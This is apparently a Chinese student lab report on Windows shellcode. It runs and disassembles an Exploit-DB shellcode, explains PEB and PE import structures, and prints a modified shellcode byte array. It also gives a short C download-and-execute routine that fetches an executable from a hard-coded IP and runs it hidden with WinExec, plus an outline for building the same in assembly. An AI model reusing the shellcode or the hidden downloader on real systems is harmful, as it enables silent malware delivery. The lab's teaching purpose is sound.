





# 第一次实验

## 实验环境

* visual studio 2010(win10)
* Kali

## 实验要求
 
  + [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中的shellcode成功运行
  + [x] 汇编源码编译通过并成功dump
  + [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
  + [x] 修改shellcode功能为记事本程序notepad.exe
  + [ ] （可选）修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

## 实验过程
****
### step1 在vs里成功运行原shellcode中的.c文件
* 运行结果展示



****

### step2 汇编源码编译通过并成功dump
* 在自己虚拟机（Kali）中编译汇编源码：
  
    `sudo vim source.asm`

    将链接中的编译源码导入后执行以下代码即可得到code[]
    
    `nasm -f win32 source.asm -o source.o`

    `for i in $(objdump -D source.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
* 运行结果展示



****

### step3 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理

* windows PEB结构体数据结构
```C++
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged; //被调试状态
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```
* PE导入表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* PE导出表数据结构
```C++
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)
 
    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```
* 参照[博客](https://www.freebuf.com/articles/system/93983.html)逐步学习了解shellcode原理


****

### step4 修改shellcode功能为记事本程序notepad.exe
**1-->修改编译源码相应位置，在Linux虚拟机中运行**
* kali中修改编译源码的位置
  


* 修改后执行结果展示



**2-->修改原.c文件code[]数组，并成功运行**
  
  * 由1得到code[],进而在vs中修改后的.c文件
```C++
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    func = int( code);
    (int)(*func)();
}
```
* 运行结果展示
  



### step5 修改shellcode功能为下载执行器，及下载一个可执行文件，然后再运行

* C语言实现方式
```C++
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
int main()
{
HMODULE hurlmod=LoadLibrary("urlmon.dll");
MY_DOWNLOAD_PROC function_ptr=
(MY_DOWNLOAD_PROC)GetProcAddress(hurlmod,"URLDownloadToFileA");
function_ptr(NULL, "http://10.196.7.115/ov.exe", "a.exe", NULL, NULL);
WinExec("a.exe", SW_HIDE);
return 0;
} 
```
#### 汇编源码编写思路

*（编码实现难度有点大，函数调用和传参方面存在问题，在这先写一下自己读相关[ 博客 ](https://zhidao.baidu.com/question/1735310477657776627.html)后整理的实现思路~）*

**step1.动态获得`kernel32.dll`地址**
  
利用PEB结构来获得kerner32.dll的地址，具体通过寄存器指向TEB结构；在TEB+0x30地方指向PEB结构；在PEB+0x0C地方指向PEB_LDR_DATA结构，在PEB_LDR_DATA+0x1C地方是一些动态连接库的地址，第二个就是kernel32.dll地址。


  **step2.获取`GetProcAddress`函数的地址**
  
GetProcAddress函数是从系统文件kernel32.dll中导出的，kernel32.dll导出表中有GetProcAddress函数的地址。

  **step3.获取`LoadLibrary`的地址并查询相关函数地址**
  
通过构造查找到LoadLibrary地址，并调用LoadLibrary来加载`urlmon.dll`，进而查找动态库urlmon.dll内置函数`URLDownLoadToFileA`的地址。同样可以通过GetProcAddress获取`WinExec()`及`ExitProcess()`地址。

  **step4.向各类函数传递参数，实现调用**